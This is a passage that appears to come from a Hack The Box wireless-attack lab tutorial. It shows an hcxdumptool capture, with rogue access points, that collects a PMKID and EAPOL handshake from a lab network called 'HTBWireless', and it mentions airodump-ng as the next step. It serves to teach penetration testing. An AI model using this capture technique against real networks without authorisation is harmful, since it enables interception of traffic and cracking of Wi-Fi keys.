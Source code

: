 ```shell
hcxdumptool -i wlan0mon --enable_status=3

initialization of hcxdumptool 6.2.5...
warning possible interfere: NetworkManager is running with pid 228

warning possible interfere: wpa_supplicant is running with pid 204

interface is already in monitor mode, skipping ioctl(SIOCSIWMODE) and ioctl(SIOCSIFFLAGS) system calls

start capturing (stop with ctrl+c)
NMEA 0183 SENTENCE........: N/A
INTERFACE NAME............: wlan0mon
INTERFACE PROTOCOL........: IEEE 802.11
INTERFACE TX POWER........: 20 dBm (lowest value reported by the device)
INTERFACE HARDWARE MAC....: 020000000100 (not used for the attack)
INTERFACE VIRTUAL MAC.....: 020000000100 (not used for the attack)
DRIVER....................: htb80211_chipset
DRIVER VERSION............: 5.4.0-88-generic
DRIVER FIRMWARE VERSION...: N/A
openSSL version...........: 1.0
ERRORMAX..................: 100 errors
BPF code blocks...........: 0
FILTERLIST ACCESS POINT...: 0 entries
FILTERLIST CLIENT.........: 0 entries
FILTERMODE................: unused
WEAK CANDIDATE............: 12345678
ESSID list................: 0 entries
ACCESS POINT (ROGUE)......: 48f317e382ad (BROADCAST HIDDEN used for the attack)
ACCESS POINT (ROGUE)......: 48f317e382ae (BROADCAST OPEN used for the attack)
ACCESS POINT (ROGUE)......: 48f317e382af (used for the attack and incremented on every new client)
CLIENT (ROGUE)............: e00db9c4a445
EAPOLTIMEOUT..............: 20000 usec
EAPOLEAPTIMEOUT...........: 2500000 usec
REPLAYCOUNT...............: 62130
ANONCE....................: 9f14624b2da3a4a721b7876507ebcf39bdeeadc841c256d386586ad2f89f7a39
SNONCE....................: 82fe602907686a6e1d605ec5baad3b704d9f3a5aeb65e9f78b8dbdf0bfc85838

19:00:20 2412/1   0e2e37d6886d d8d63deb29d5 HTBWireless [ASSOCIATION]
19:00:20 2412/1   0e2e37d6886d d8d63deb29d5 HTBWireless [PMKID:f296a698f65192290be9021be35e6462 KDV:2]
19:00:20 2412/1   0e2e37d6886d d8d63deb29d5 HTBWireless [EAPOL:M1M2 EAPOLTIME:10099 RC:1 KDV:2]
19:00:20 2412/1   0e2e37d6886d d8d63deb29d5 HTBWireless [EAPOL:M2M3 EAPOLTIME:65 RC:2 KDV:2]
19:00:20 2412/1   0e2e37d6886d d8d63deb29d5 HTBWireless [EAPOL:M3M4ZEROED EAPOLTIME:50 RC:2 KDV:2]

```

As shown in the output above, we can see the `PMKID` for essid `HTBWireless`, confirming that the access point is indeed vulnerable. To proceed, we can use airodump-ng with `--essid HTBWireless` to find out the BSSID of our target.
